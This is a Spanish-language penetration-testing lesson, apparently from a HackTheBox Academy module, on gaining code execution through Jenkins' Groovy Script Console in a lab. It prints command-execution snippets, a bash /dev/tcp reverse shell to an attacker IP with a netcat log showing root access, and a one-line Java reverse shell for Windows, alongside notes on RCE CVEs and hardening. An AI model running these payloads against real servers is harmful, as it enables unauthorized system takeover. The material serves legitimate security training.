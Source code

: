 Hemos confirmado que el host está ejecutando Jenkins y está configurado con credenciales débiles. Vamos a verificar qué tipo de acceso nos dará esto.

Una vez que hayamos obtenido acceso a una aplicación Jenkins, una manera rápida de lograr la ejecución de comandos en el servidor subyacente es a través de la [Script Console](https://www.jenkins.io/doc/book/managing/script-console/). La consola de scripts nos permite ejecutar scripts Groovy arbitrarios dentro del runtime del controlador de Jenkins. Esto se puede abusar para ejecutar comandos del sistema operativo en el servidor subyacente. Jenkins a menudo se instala en el contexto de la cuenta root o SYSTEM, por lo que puede ser una victoria fácil para nosotros.

---

## Script Console

La consola de scripts se puede alcanzar en la URL `http://jenkins.inlanefreight.local:8000/script`. Esta consola permite a un usuario ejecutar scripts Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy), que es un lenguaje compatible con Java orientado a objetos. El lenguaje es similar a Python y Ruby. El código fuente de Groovy se compila en Java Bytecode y puede ejecutarse en cualquier plataforma que tenga JRE instalado.

Usando esta consola de scripts, es posible ejecutar comandos arbitrarios, funcionando de manera similar a una web shell. Por ejemplo, podemos usar el siguiente fragmento para ejecutar el comando `id`.


```r
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

`http://jenkins.inlanefreight.local:8000/script`

![](https://academy.hackthebox.com/storage/modules/113/groovy_web.png)

Hay varias formas en que el acceso a la consola de scripts puede ser aprovechado para obtener una reverse shell. Por ejemplo, usando el comando a continuación, o [este](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) módulo de Metasploit.


```r
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

La ejecución de los comandos anteriores resulta en una conexión reverse shell.


```r
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

Contra un host Windows, podríamos intentar agregar un usuario y conectarnos al host a través de RDP o WinRM o, para evitar hacer un cambio en el sistema, usar un PowerShell download cradle con [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Podríamos ejecutar comandos en una instalación de Jenkins basada en Windows usando este fragmento:


```r
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

También podríamos usar [esta](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) reverse shell en Java para obtener ejecución de comandos en un host Windows, intercambiando `localhost` y el puerto por nuestra dirección IP y puerto de escucha.


```r
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---

## Miscellaneous Vulnerabilities

Existen varias vulnerabilidades de ejecución remota de código en diversas versiones de Jenkins. Un exploit reciente combina dos vulnerabilidades, CVE-2018-1999002 y [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) para lograr ejecución de código remoto preautenticado, evitando la protección de sandbox de seguridad de scripts durante la compilación de scripts. Existen PoCs públicos de exploit para aprovechar una falla en el enrutamiento dinámico de Jenkins para evitar la ACL Overall / Read y usar Groovy para descargar y ejecutar un archivo JAR malicioso. Esta falla permite a los usuarios con permisos de lectura evitar las protecciones del sandbox y ejecutar código en el servidor maestro de Jenkins. Este exploit funciona contra Jenkins versión 2.137.

Otra vulnerabilidad existe en Jenkins 2.150.2, que permite a los usuarios con privilegios de creación de JOB y BUILD ejecutar código en el sistema a través de Node.js. Esta vulnerabilidad requiere autenticación, pero si los usuarios anónimos están habilitados, el exploit tendrá éxito porque estos usuarios tienen privilegios de creación de JOB y BUILD por defecto.

Como hemos visto, obtener acceso a Jenkins como administrador puede llevar rápidamente a la ejecución remota de código. Si bien existen varios exploits RCE que funcionan para Jenkins, son específicos de la versión. Al momento de escribir esto, la versión LTS actual de Jenkins es 2.303.1, que corrige las dos fallas detalladas anteriormente. Como con cualquier aplicación o sistema, es importante endurecer Jenkins tanto como sea posible ya que la funcionalidad incorporada puede ser fácilmente utilizada para tomar el control del servidor subyacente.

---

## Shifting Gears

Hemos cubierto varias formas en que los CMS populares y los contenedores/ aplicaciones de desarrollo de software pueden ser abusados para explotar tanto vulnerabilidades conocidas como funcionalidad incorporada. Cambiemos nuestro enfoque un poco a dos herramientas bien conocidas de monitoreo de infraestructura/red: Splunk y PRTG Network Monitor.